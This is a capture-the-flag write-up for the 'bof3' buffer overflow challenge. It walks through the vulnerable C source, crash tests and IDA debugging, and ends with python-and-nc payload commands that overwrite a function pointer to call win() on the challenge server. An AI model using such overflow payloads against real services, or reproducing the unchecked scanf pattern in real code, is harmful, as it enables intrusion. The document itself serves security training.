






# bof3
**Category:** Pwn

**Points:** 25

**Description:**

Author: kablaa

nc ctf.hackucf.org 9002

> **Files:** bof3, bof3.c, libpwnableharness32.so

## Write-up
This is a buffer overflow challenge, and the code file was provided.

Looking at the code, as with others, the important function is `handle_connection()`. It contains a `scanf()` call into a buffer of 64 chars, and a function pointer pointing to the `lose()` function:
```c
void handle_connection(int sock) {
	void (*fp)(); 
	char bof[64];
	
	fp = &lose;
	
	scanf("%s",bof);
	fp();
}
```

When the program runs it waits for input in the `scanf()`, and overflowing the buffer should overwrite the function pointer.

I tried sending 65 characters to the program:
```
> python -c "print('A'*65)" | ./bof3 
Segmentation fault (core dumped)
```
Then I tried 64 (fill the buffer, but no room for `NULL` terminator):
```
> python -c "print('A'*64)" | ./bof3 
Illegal instruction (core dumped)
```
Finally I tried 63:
```
> python -c "print('A'*63)" | ./bof3 
you suck!
```

Now to open the executable in IDA and see what's going on. I jump to the `handle_connection()` function and put a breakpoint just before the function pointer is set to the `lose()` function:



Here we can see that `var_C` represents the function pointer on the stack,  and `var_4C` represents the location of the array. These are 64 bytes apart, so the function pointer comes straight after the array, meaning we could write 64 characters, and then the address of the win function. 

First I create a file containing 64 characters so I can pass it to the IDA debugger and see it appear on the stack to confirm what I think:
```
> python -c "print('A'*64)" > inp_file.txt
```
Now we run the debugger in IDA and watch the stack synchronised with `RBP` (blue highlighted byte at `0xFF901948`):



The 4 yellow highlighted bytes are the function pointer. We can see them change when they are set to the `lose()` function:



If we look at the code, we can confirm this is the location of the `lose()` function:



And if we continue the program, our `A` characters appear right up to our function pointer:



> **Note:** the function pointer address is changed slightly as the `NULL` terminator from the string has leaked into the address.

So if we follow our A characters with the address of the `win()` function, we should get our flag. Let's look at the `win()` function:



we can see that the address is `0x080486EB`, so our final solution is:
```
> python -c "print('A'*64 + '\xeb\x86\x04\x08')" | nc ctf.hackucf.org 9002
```
> **Note:** The above works in Python2. As Python3 uses Unicode for the basic string, and `print()` expects Unicode, for Python3 use:  
  `python3 -c "import sys; sys.stdout.buffer.write(b'A'*64 + b'\xeb\x86\x04\x08')" | nc ctf.hackucf.org 9002`

This worked, and gave me the flag.
